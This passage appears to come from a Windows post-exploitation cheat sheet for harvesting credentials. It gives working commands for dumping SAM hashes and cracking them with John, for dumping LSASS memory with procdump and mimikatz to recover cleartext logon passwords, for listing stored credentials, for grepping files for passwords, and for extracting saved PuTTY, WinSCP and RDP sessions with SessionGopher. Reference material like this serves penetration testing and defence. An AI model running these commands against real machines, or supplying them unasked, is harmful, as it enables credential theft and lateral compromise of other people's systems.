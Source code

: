 Generate a hash file for John using `pwdump` or `samdump2`.
```
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

Then crack it with `john -format=NT /root/sam.txt`.

## Passwords

## Stored credentials

Use the `cmdkey` to list the stored credentials on the machine:
```
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```

### Mimikatz

```
mimikatz # privilege::debug
mimikatz # log sekurlsa.log
mimikatz # sekurlsa::logonpasswords
```

### In-Memory Credentials

Dump clear-text passwords from memory using mimikatz and the Windows Task Manager to dump the LSASS process.
```
C:\> procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
```

Then dump the credentials offline using mimikatz and its minidump module:
```
C:\> mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
```

### Search for file contents

```
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*
findstr /si pass *.txt | *.xml | *.ini
```

### Passwords stored in services

Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using [SessionGopher](https://github.com/Arvanaghi/SessionGopher)
```
https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```
